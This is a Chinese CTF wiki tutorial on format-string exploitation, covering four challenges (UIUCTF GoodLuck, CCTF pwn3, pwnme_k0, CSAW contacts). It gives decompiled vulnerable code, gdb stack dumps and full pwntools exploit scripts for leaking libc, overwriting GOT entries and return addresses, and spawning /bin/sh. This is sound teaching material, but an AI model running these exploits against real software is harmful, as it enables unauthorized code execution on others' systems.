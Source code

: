 .. role:: raw-latex(raw)
   :format: latex
..

格式化字符串漏洞例子
====================

下面会介绍一些CTF中的格式化漏洞的题目。也都是格式化字符串常见的利用。

64位程序格式化字符串漏洞
========================

原理
----

其实64位的偏移计算和32位类似，都是算对应的参数。只不过64位函数的前6个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。

例子
----

这里，我们以2017年的UIUCTF中pwn200
GoodLuck为例进行介绍。这里由于只有本地环境，所以我在本地设置了一个flag.txt文件。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2017-UIUCTF-pwn200-GoodLuck git:(master) ✗ checksec goodluck
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序开启了NX保护以及部分RELRO保护。

分析程序
~~~~~~~~

可以发现，程序的漏洞很明显

.. code:: c

      for ( j = 0; j <= 21; ++j )
      {
        v5 = format[j];
        if ( !v5 || v11[j] != v5 )
        {
          puts("You answered:");
          printf(format);
          puts("\nBut that was totally wrong lol get rekt");
          fflush(_bss_start);
          result = 0;
          goto LABEL_11;
        }
      }

确定偏移
~~~~~~~~

我们在printf处下偏移如下,这里只关注代码部分与栈部分。

.. code:: shell

    gef➤  b printf
    Breakpoint 1 at 0x400640
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/2017-UIUCTF-pwn200-GoodLuck/goodluck 
    what's the flag
    123456
    You answered:

    Breakpoint 1, __printf (format=0x602830 "123456") at printf.c:28
    28  printf.c: 没有那个文件或目录.

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
       0x7ffff7a627fe <fprintf+142>    ret    
       0x7ffff7a627ff                  nop    
     → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
       0x7ffff7a62807 <printf+7>       test   al, al
       0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
       0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
    ───────────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb08', 'l8']
    8
    0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8    ← $rsp
    0x00007fffffffdb10│+0x08: 0x0000000031000001
    0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
    0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
    0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
    0x00007fffffffdb30│+0x28: "flag{11111111111111111"
    0x00007fffffffdb38│+0x30: "11111111111111"
    0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
    [#1] 0x400890 → Name: main()
    ─────────────────────────────────────────────────────────────────────────────────────────────────

可以看到flag对应的栈上的偏移为5，除去对应的第一行为返回地址外，其偏移为4。此外，由于这是一个64位程序，所以前6个参数存在在对应的寄存器中，fmt字符串存储在RDI寄存器中，所以fmt字符串对应的地址的偏移为10。而fmt字符串中%order$s对应的order为fmt字符串后面的参数的顺序，所以我们只需要输入%9$s即可得到flag的内容。当然，我们还有更简单的方法利用https://github.com/scwuaptx/Pwngdb中的fmtarg来判断某个参数的偏移。

.. code:: shell

    gef➤  fmtarg 0x00007fffffffdb28
    The index of format argument : 10

需要注意的是我们必须break在printf处。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    goodluck = ELF('./goodluck')
    if args['REMOTE']:
        sh = remote('pwn.sniperoj.cn', 30017)
    else:
        sh = process('./goodluck')
    payload = "%9$s"
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

hijack GOT
==========

原理
----

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在
没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的。因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的地址。从而，程序在执行printf的时候实际执行的是system函数。

假设我们将函数A的地址覆盖为函数B的地址，那么这一攻击技巧可以分为以下步骤

-  确定函数A的GOT表地址。

-  这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

-  确定函数B的内存地址

-  这一步通常来说，需要我们自己想办法来泄露对应函数B的地址。

-  将函数B的内存地址写入到函数A的GOT表地址处。

-  这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

   -  写入函数：write函数。
   -  ROP

   .. code:: text

       pop eax; ret;           # printf@got -> eax
       pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
       add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset

   -  格式化字符串任意地址写

例子
----

这里我们以2016 CCTF中的pwn3为例进行介绍。

确定保护
~~~~~~~~

如下

.. code:: shell

    ➜  2016-CCTF-pwn3 git:(master) ✗ checksec pwn3 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序主要开启了NX保护。我们一般默认远程都是开启ASLR保护的。

分析程序
~~~~~~~~

首先分析程序，可以发现程序似乎主要实现了一个需密码登录的ftp，具有get，put，dir三个基本功能。大概浏览一下每个功能的代码，发现在get功能中存在格式化字符串漏洞

.. code:: c

    int get_file()
    {
      char dest; // [sp+1Ch] [bp-FCh]@5
      char s1; // [sp+E4h] [bp-34h]@1
      char *i; // [sp+10Ch] [bp-Ch]@3

      printf("enter the file name you want to get:");
      __isoc99_scanf("%40s", &s1);
      if ( !strncmp(&s1, "flag", 4u) )
        puts("too young, too simple");
      for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
      {
        if ( !strcmp(i, &s1) )
        {
          strcpy(&dest, i + 0x28);
          return printf(&dest);
        }
      }
      return printf(&dest);
    }

漏洞利用思路
~~~~~~~~~~~~

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

-  绕过密码
-  确定格式化字符串参数偏移
-  利用put@got获取put函数地址，进而获取对应的libc.so的版本，进而获取对应system函数地址。
-  修改puts@got的内容为system的地址。
-  当程序再次执行puts函数的时候，其实执行的是system函数。

漏洞利用程序
~~~~~~~~~~~~

如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    pwn3 = ELF('./pwn3')
    if args['REMOTE']:
        sh = remote('111', 111)
    else:
        sh = process('./pwn3')


    def get(name):
        sh.sendline('get')
        sh.recvuntil('enter the file name you want to get:')
        sh.sendline(name)
        data = sh.recv()
        return data


    def put(name, content):
        sh.sendline('put')
        sh.recvuntil('please enter the name of the file you want to upload:')
        sh.sendline(name)
        sh.recvuntil('then, enter the content:')
        sh.sendline(content)


    def show_dir():
        sh.sendline('dir')


    tmp = 'sysbdmin'
    name = ""
    for i in tmp:
        name += chr(ord(i) - 1)


    # password
    def password():
        sh.recvuntil('Name (ftp.hacker.server:Rainism):')
        sh.sendline(name)


    #password
    password()
    # get the addr of puts
    puts_got = pwn3.got['puts']
    log.success('puts got : ' + hex(puts_got))
    put('1111', '%8$s' + p32(puts_got))
    puts_addr = u32(get('1111')[:4])

    # get addr of system
    libc = LibcSearcher("puts", puts_addr)
    system_offset = libc.dump('system')
    puts_offset = libc.dump('puts')
    system_addr = puts_addr - puts_offset + system_offset
    log.success('system addr : ' + hex(system_addr))

    # modify puts@got, point to system_addr
    payload = fmtstr_payload(7, {puts_got: system_addr})
    put('/bin/sh;', payload)
    sh.recvuntil('ftp>')
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    #gdb.attach(sh)
    sh.sendline('/bin/sh;')

    # system('/bin/sh')
    show_dir()
    sh.interactive()

注意

-  我在获取puts函数地址时使用的偏移是8，这是因为我希望我输出的前4个字节就是puts函数的地址。其实格式化字符串的首地址的偏移是7。
-  这里我利用了pwntools中的fmtstr\_payload函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里fmtstr\_payload(7,
   {puts\_got:
   system\_addr})的意思就是，我的格式化字符串的偏移是7，我希望在puts\_got地址处写入system\_addr地址。默认情况下是按照字节来写的。

hijack retaddr
==============

原理
----

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

例子
----

这里我们以三个白帽-pwnme\_k0为例进行分析。

确定保护
~~~~~~~~

.. code:: shell

    ➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

可以看出程序主要开启了NX保护以及Full
RELRO保护。这我们就没有办法修改程序的got表了。

分析程序
~~~~~~~~

简单分析一下，就知道程序似乎主要实现了一个类似账户注册之类的功能，主要有修改查看功能，然后发现在查看功能中发现了格式化字符串漏洞

.. code:: c

    int __usercall sub_400B07@<eax>(char format@<dil>, char formata, __int64 a3, char a4)
    {
      write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
      printf(&formata, "Welc0me to sangebaimao!\n");
      return printf(&a4 + 4);
    }

其输出的内容为&a4+4。我们回溯一下，发现我们读入的passwrod内容也是

.. code:: c

        v6 = read(0, (char *)&a4 + 4, 0x14uLL);

当然我们还可以发现我们读入的username在距离的password20个字节。

.. code:: c

      puts("Input your username(max lenth:20): ");
      fflush(stdout);
      v8 = read(0, &bufa, 0x14uLL);
      if ( v8 && v8 <= 0x14u )
      {
        puts("Input your password(max lenth:20): ");
        fflush(stdout);
        v6 = read(0, (char *)&a4 + 4, 0x14uLL);
        fflush(stdout);
        *(_QWORD *)buf = bufa;
        *(_QWORD *)(buf + 8) = a3;
        *(_QWORD *)(buf + 16) = a4;

好，这就差不多了。此外，也可以发现这个账号密码其实没啥配对不配对的。

利用思路
~~~~~~~~

我们最终的目的是希望可以获得系统的shell，可以发现在给定的文件中，在00000000004008A6地址处有一个直接调用system('bin/sh')的函数（关于这个的发现，一般都会现在程序大致看一下。）。那如果我们修改某个函数的返回地址为这个地址，那就相当于获得了shell。

虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。利用思路如下

-  确定偏移
-  获取函数的rbp与返回地址
-  根据相对偏移获取存储返回地址的地址
-  将执行system函数调用的地址写入到存储返回地址的地址。

确定偏移
~~~~~~~~

首先，我们先来确定一下偏移。输入用户名aaaaaaaa，密码随便输入，断点下在输出密码的那个printf(&a4
+ 4)函数处

.. code:: text

    Register Account first!
    Input your username(max lenth:20): 
    aaaaaaaa
    Input your password(max lenth:20): 
    %p%p%p%p%p%p%p%p%p%p
    Register Success!!
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >error options
    1.Sh0w Account Infomation!
    2.Ed1t Account Inf0mation!
    3.QUit sangebaimao:(
    >1
    ...

此时栈的情况为

.. code:: text

    ─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
         0x400b1a                  call   0x400758
         0x400b1f                  lea    rdi, [rbp+0x10]
         0x400b23                  mov    eax, 0x0
     →   0x400b28                  call   0x400770
       ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
            0x400776                  xchg   ax, ax
            0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
            0x40077e                  xchg   ax, ax
    ────────────────────────────────────────────────────────────────────[ stack ]────
    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为5+3=8。

修改地址
~~~~~~~~

我们再仔细观察下断点处栈的信息

.. code:: text

    0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
    0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
    0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
    0x00007fffffffdb58│+0x18: 0x000000000000000a
    0x00007fffffffdb60│+0x20: 0x7025702500000000
    0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
    0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
    0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用showaccounth函数时执行push
rip所存储的值)，在格式化字符串中的偏移为7。

与此同时栈上，第一个元素存储的也就是上一个函数的rbp。所以我们可以得到偏移0x00007fffffffdb80-0x00007fffffffdb48=0x38。继而如果我们知道了rbp的数值，就知道了函数返回地址的地址。

0x0000000000400d74与0x00000000004008A6只有低2字节不同，所以我们可以只修改0x00007fffffffdb48开始的2个字节。

利用程序
~~~~~~~~

这里使用data[1:]的原因是当我们split的时候由于起始的是0x，所以会产生‘’字符串，需要跳过。

.. code:: python

    from pwn import *
    from LibcSearcher import *
    pwnme = ELF('./pwnme_k0')
    if args['REMOTE']:
        sh = remote(11, 11)
    else:
        sh = process('./pwnme_k0')
    sh.recvuntil(':\n')
    sh.sendline('a' * 8)
    sh.recvuntil(':\n')
    sh.sendline('%p' * 9)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.recvuntil('a' * 8 + '\n')
    data = sh.recvuntil('1.', drop=True).split('0x')
    print data
    data = data[1:]
    rbp = int(data[5], 16)
    ret_addr = rbp - 0x38
    sh.recvuntil('>')
    sh.sendline('2')
    sh.recvuntil(':\n')
    sh.sendline(p64(ret_addr))
    sh.recvuntil(':\n')
    payload = '%2214d%8$hn'
    sh.sendline(payload)
    sh.recvuntil('>')
    sh.sendline('1')
    sh.interactive()

堆上的格式化字符串漏洞
======================

原理
----

所谓堆上的格式化字符串指的是格式化字符串本身存储在堆上，这个主要增加了我们获取对应偏移的难度，而一般来说，该格式化字符串都是很有可能被复制到栈上的。

例子
----

这里我们以2015年CSAW中的contacts为例进行介绍。

确定保护
~~~~~~~~

.. code:: shell

    ➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)

可以看出程序不仅开启了NX保护还开启了Canary。

分析程序
~~~~~~~~

简单看看程序，发现程序正如名字所描述的，是一个联系人相关的程序，可以实现创建，修改，删除，打印联系人的信息。而再仔细阅读，可以发现在输入联系人信息的时候存在格式化字符串漏洞。

.. code:: c

    int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
    {
      printf("\tName: %s\n", a1);
      printf("\tLength %u\n", a2);
      printf("\tPhone #: %s\n", a3);
      printf("\tDescription: ");
      return printf(format);
    }

仔细看看，可以发现这个format其实是指向堆中的。

利用思路
~~~~~~~~

我们的基本目的是获取系统的shell，从而拿到flag。其实既然有格式化字符串漏洞，我们应该是可以通过劫持got表或者控制程序返回地址来控制程序流程。但是这里却不怎么可行。原因分别如下

-  之所以不能够劫持got来控制程序流程，是因为我们发现对于程序中常见的可以对于我们给定的字符串输出的只有printf函数，我们只有选择它才可以构造/bin/sh让它执行system('/bin/sh')，但是printf函数在其他地方也均有用到，这样做会使得程序直接崩溃。
-  其次，不能够直接控制程序返回地址来控制程序流程的是因为我们并没有一块可以直接执行的地址来存储我们的内容，同时利用格式化字符串来往栈上直接写入system\_addr+'bbbb'+addr
   of '/bin/sh‘似乎并不现实。

那么我们可以怎么做呢？我们还有之前在栈溢出讲的技巧，stack
privot。而这里，我们可以控制的恰好是堆内存，所以我们可以把栈迁移到堆上去。这里我们通过leave指令来进行栈迁移，所以在迁移之前我们需要修改程序保存ebp的值为我们想要的值。
只有这样在执行leave指令的时候，esp才会成为我们想要的值。同时，因为我们是使用格式化字符串来进行修改，所以我们得知道保存ebp的地址为多少，而这时PrintInfo函数中存储ebp的地址每次都在变化，而我们也无法通过其他方法得知。但是，\ **程序中压入栈中的ebp值其实保存的是上一个函数的保存ebp值的地址**\ ，所以我们可以修改其\ **上层函数的保存的ebp的值，即上上层函数（即main函数）的ebp数值**\ 。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

-  首先获取system函数的地址
-  通过泄露某个libc函数的地址根据libc database确定。
-  构造基本联系人描述为system\_addr+'bbbb'+binsh\_addr
-  修改上层函数保存的ebp(即上上层函数的ebp)为\ **存储system\_addr的地址-4**\ 。
-  当主程序返回时，会有如下操作
-  move esp,ebp，将esp指向system\_addr的地址-4
-  pop ebp， 将esp指向system\_addr
-  ret，将eip指向system\_addr，从而获取shell。

获取相关地址与偏移
~~~~~~~~~~~~~~~~~~

这里我们主要是获取system函数地址、/bin/sh地址，栈上存储联系人描述的地址，以及PrintInfo函数的地址。

首先，我们根据栈上存储的libc\_start\_main\_ret地址(该地址是当main函数执行返回时会运行的函数)来获取system函数地址、/bin/sh地址。我们构造相应的联系人，然后选择输出联系人信息，并将断点下在printf处，并且一直运行到格式化字符串漏洞的printf函数处，如下

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ───────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffccfc', 'l8']
    8
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    ──────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0xf7e44670 → Name: __printf(format=0x804c420 "1234567\n")
    [#1] 0x8048c27 → leave 
    [#2] 0x8048c99 → add DWORD PTR [ebp-0xc], 0x1
    [#3] 0x80487a2 → jmp 0x80487b3
    [#4] 0xf7e13637 → Name: __libc_start_main(main=0x80486bd, argc=0x1, argv=0xffffce14, init=0x8048df0, fini=0x8048e60, rtld_fini=0xf7fe88a0 <_dl_fini>, stack_end=0xffffce0c)
    [#5] 0x80485e1 → hlt 
    ────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  dereference $esp 140
    ['$esp', '140']
    1
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    gef➤  dereference $esp l140
    ['$esp', 'l140']
    140
    0xffffccfc│+0x00: 0x08048c27  →   leave      ← $esp
    0xffffcd00│+0x04: 0x0804c420  →  "1234567"
    0xffffcd04│+0x08: 0x0804c410  →  "11111"
    0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
    0xffffcd0c│+0x10: 0x00000000
    0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
    0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp
    0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
    0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
    0xffffcd24│+0x28: 0x00002b67 ("g+"?)
    0xffffcd28│+0x2c: 0x0804c410  →  "11111"
    0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
    0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
    0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
    0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd3c│+0x40: 0x00000000
    0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
    0xffffcd44│+0x48: 0x00000000
    0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
    0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
    0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
    0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
    0xffffcd58│+0x5c: 0x00000050 ("P"?)
    0xffffcd5c│+0x60: 0x00000000
    0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
    0xffffcd64│+0x68: 0x08048288  →  0x00000082
    0xffffcd68│+0x6c: 0x00000004
    0xffffcd6c│+0x70: 0x0000000a
    0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
    0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
    0xffffcd78│+0x7c: 0x00000000
    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
    0xffffcd80│+0x84: 0x00000001
    0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
    0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"

我们可以通过简单的判断可以得到

::

    0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

.. code:: shell

    gef➤  fmtarg 0xffffcd7c
    The index of format argument : 32

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

.. code:: shell

    0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000   ← $ebp

构造联系人获取堆地址
~~~~~~~~~~~~~~~~~~~~

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。

.. code:: text

    [system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

修改ebp
~~~~~~~

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop
ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop
ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

::

    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

获取shell
~~~~~~~~~

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

利用程序
~~~~~~~~

.. code:: python

    from pwn import *
    from LibcSearcher import *
    contact = ELF('./contacts')
    #context.log_level = 'debug'
    if args['REMOTE']:
        sh = remote(11, 111)
    else:
        sh = process('./contacts')


    def createcontact(name, phone, descrip_len, description):
        sh.recvuntil('>>> ')
        sh.sendline('1')
        sh.recvuntil('Contact info: \n')
        sh.recvuntil('Name: ')
        sh.sendline(name)
        sh.recvuntil('You have 10 numbers\n')
        sh.sendline(phone)
        sh.recvuntil('Length of description: ')
        sh.sendline(descrip_len)
        sh.recvuntil('description:\n\t\t')
        sh.sendline(description)


    def printcontact():
        sh.recvuntil('>>> ')
        sh.sendline('4')
        sh.recvuntil('Contacts:')
        sh.recvuntil('Description: ')


    # get system addr & binsh_addr
    payload = '%31$paaaa'
    createcontact('1111', '1111', '111', payload)
    printcontact()
    libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)
    log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))
    libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)
    libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('get system addr: ' + hex(system_addr))
    log.success('get binsh addr: ' + hex(binsh_addr))
    #gdb.attach(sh)

    # get heap addr and ebp addr
    payload = flat([
        system_addr,
        'bbbb',
        binsh_addr,
        '%6$p%11$pcccc',
    ])
    createcontact('2222', '2222', '222', payload)
    printcontact()
    sh.recvuntil('Description: ')
    data = sh.recvuntil('cccc', drop=True)
    data = data.split('0x')
    print data
    ebp_addr = int(data[1], 16)
    heap_addr = int(data[2], 16)

    # modify ebp
    part1 = (heap_addr - 4) / 2
    part2 = heap_addr - 4 - part1
    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
    #print payload
    createcontact('3333', '123456789', '300', payload)
    printcontact()
